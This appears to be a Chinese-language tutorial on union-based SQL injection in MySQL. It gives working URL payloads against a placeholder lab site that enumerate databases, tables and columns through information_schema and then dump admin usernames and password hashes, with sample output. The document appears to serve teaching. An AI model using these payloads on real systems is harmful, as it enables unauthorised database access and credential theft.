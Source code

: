 函数 group_concat()可以将查询的字段的数据查询出来,可以用利这个函数 将mysql所有的库名查询出来

## 1、查询所有的库

```http
http://target_sys.com/article.php?id=-1 union select 1,2,SCHEMA_NAME from information_schema.SCHEMATA limit 0,1
http://target_sys.com/article.php?id=-1 union select 1,2,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA 
```

information_schema,blogs,mysql,performance_schema,target_sys,test,wordpress

## 2、查询库里所有的表

```http
http://target_sys.com/article.php?id=-1 union select 1,2,group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()
```

admin,article,moon_range,users

## 3、查询表里所有的字段

```http
http://target_sys.com/article.php?id=-1 union select 1,2,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x61646d696e
```

需要把表名转成16进制

id,username,password

## 4、查询数据

```http
http://target_sys.com/article.php?id=-1 union select 1,2,group_concat(username,0x3a,password) from admin
```

admin:e10adc3949ba59abbe56e057f20f883e

## 5、查询失败的原因

这种方面不是通用的，有时候 查询不全 这个原因是字段的大小问题。解决办法 换一个字段查询，或者 用函数查询长度再用字符串函数截取。这种方法将会在下面介绍。